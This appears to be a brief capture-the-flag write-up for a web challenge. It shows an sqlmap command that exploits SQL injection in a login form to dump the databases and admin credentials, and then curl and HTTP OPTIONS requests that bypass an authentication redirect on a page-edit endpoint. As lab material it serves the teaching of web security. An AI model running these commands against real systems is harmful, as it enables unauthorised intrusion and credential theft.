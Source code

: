 It requires to login to create or edit page, the login page seems injectable.

```bash
sqlmap -u http://34.74.105.127/239c7507f5/login --method POST --data "username=FUZZ&password=" -p username --dbs --dbms mysql --regexp "invalid password" --level 2 --dump --random-agent
```

Found admin credential in sqlmap output ``admins.csv``. After login, found one flag. 
In another output of sqlmap ``pages.csv`` there is another flag.

Try to edit or create a page, but it always redirect to login page. check what options are allowed for editing page.

```bash
  http OPTIONS http://35.190.155.168/cf116e4cb3/page/edit/2
```

How about a post request.

```bash
  curl -XPOST http://35.190.155.168/cf116e4cb3/page/edit/2
```
Now we get a flag in response.
